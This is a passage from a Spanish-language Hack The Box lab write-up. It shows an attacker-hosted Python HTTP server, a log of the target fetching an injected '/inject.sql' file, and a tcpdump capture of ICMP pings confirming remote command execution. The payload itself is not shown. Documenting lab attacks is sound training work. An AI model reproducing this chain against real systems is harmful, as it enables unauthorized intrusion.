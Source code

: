```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora inyectamos esto en la `web`

![](/assets/images/htb-writeup-time/web7.png)

Y recibimos la petición

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.141.133 - - [27/Jul/2023 13:39:46] "GET /inject.sql HTTP/1.1" 200 -
```

Y recibimos la `trasa`

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:39:47.062972 IP 10.129.141.133 > 10.10.14.100: ICMP echo request, id 1, seq 1, length 64
13:39:47.062994 IP 10.10.14.100 > 10.129.141.133: ICMP echo reply, id 1, seq 1, length 64
```

Como tenemos ejecución remota de comandos ahora si podemos ganar acceso
